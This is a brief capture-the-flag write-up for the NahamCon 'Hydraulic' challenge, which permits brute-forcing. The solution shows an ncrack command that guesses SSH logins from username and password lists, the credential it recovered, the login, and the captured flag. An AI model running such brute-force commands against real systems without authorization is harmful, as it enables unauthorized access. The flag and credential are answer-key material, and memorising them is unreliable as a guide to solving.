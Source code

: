 # Hydraulic

Tags: _ncrack_

## Challenge

>Author: @JohnHammond#6971
>
>This is Stage 2 of Path 5 in The Mission. After solving this challenge, you may need to refresh the page to see the newly unlocked challenges.
>
>Gain access with the information you have gathered thus far and retrieve the flag.
>
>You may bruteforce this challenge... hence the name ;)
>
>Press the Start button on the top-right to begin this challenge.
>
>Connect with:
>
>ssh -p 32317 challenge.nahamcon.com
>



## Solving

```
$ ncrack -U mission-usr.lst -P mission-password.lst ssh://challenge.nahamcon.com:32317

Discovered credential on ssh://35.239.227.150:32317 'pavo' 'starsinthesky'
```

```
$ ssh pavo@challenge.nahamcon.com -p 32317

cat flag.txt
flag{cadbbfd75d2547700221f8c2588e026e}
```

`flag{cadbbfd75d2547700221f8c2588e026e}`
